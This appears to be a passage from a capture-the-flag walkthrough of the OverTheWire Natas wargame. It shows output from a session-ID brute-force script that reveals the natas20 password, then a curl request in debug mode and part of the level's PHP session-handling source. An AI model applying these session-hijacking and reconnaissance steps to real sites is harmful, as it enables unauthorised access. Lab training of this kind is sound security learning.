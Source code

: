 ```
abs@MacBookPro natas % ./brute_force_natas19.sh 
<h1>natas19</h1>
<div id="content">
<p>
<b>

This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
</b>
</p>
DEBUG: Session start ok<br>You are an admin. The credentials for the next level are:<br><pre>Username: natas20
Password: p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw</pre></div>
```


# Level 19 -> 20:
```
abs@MacBookPro OverTheWire % curl "natas20.natas.labs.overthewire.org/index.php?debug=1" -u natas20:p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw
<h1>natas20</h1>
<div id="content">
DEBUG: MYREAD i62ulplu0sknsmud7gkv50it5n<br>DEBUG: Session file doesn't exist<br>You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.
<form action="index.php" method="POST">
Your name: <input name="name" value=""><br>
<input type="submit" value="Change name" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
DEBUG: MYWRITE i62ulplu0sknsmud7gkv50it5n <br>DEBUG: Saving in /var/lib/php/sessions/mysess_i62ulplu0sknsmud7gkv50it5n<br>% 
```

index-source.html:
```

function debug($msg) { /* {{{ */
    if(array_key_exists("debug", $_GET)) {
        print "DEBUG: $msg<br>";
    }
}
/* }}} */
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas21\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
    }
}
/* }}} */

/* we don't need this */
function myopen($path, $name) {
    //debug("MYOPEN $path $name");
    return true;
}

```